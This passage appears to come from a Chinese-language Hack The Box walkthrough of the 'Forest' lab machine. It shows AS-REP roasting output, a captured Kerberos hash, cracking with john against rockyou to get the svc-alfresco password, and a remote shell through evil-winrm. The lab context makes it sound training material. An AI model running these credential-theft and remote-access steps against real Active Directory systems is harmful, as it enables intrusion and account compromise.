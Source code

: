 ```
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

```


得到一个票据
```
┌──(root💀kali)-[~/htb/Forest]
└─# cat hashes.asreproast 
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25119f5d1377a724caa46729ed033266$371a8d9e8f8913675cc79afc8e2e233a99fb375f45967e9999c7f3cd04c5cfdd427c52ebde622f0afe9a2a60f9c20bcac9bf8ac53807cf082eccef75b850ae3f07281f22bba083b10b97ea4a4bb7266618a1cbf92db7168d034789e3c5da54fec6adfbef667fbeff8d649f0c8b49183bf7bc188385e2e4589d482a1104787e1a079949cdc54a472a0a5ff79b59100a7a3c815830711404e829e7e3b9b984ffae71d7ab38a2ee88e5dc8916d8b28d63240d97c7e59daac9e8155ee13e64878ff9f7bf6d648d502f4d9ab3589faf4835ac659c315ff0e512a0104da788e586b07a46158b6e90b7

```


john爆破
```
┌──(root💀kali)-[~/htb/Forest]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2022-01-04 11:12) 0.2985g/s 1219Kp/s 1219Kc/s 1219KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```


现在我们有了一个凭证：```svc-alfresco : s3rvice```

使用evil-winrm登录，拿到foodhold
```
┌──(root💀kali)-[~/htb/Forest]
└─# evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

```
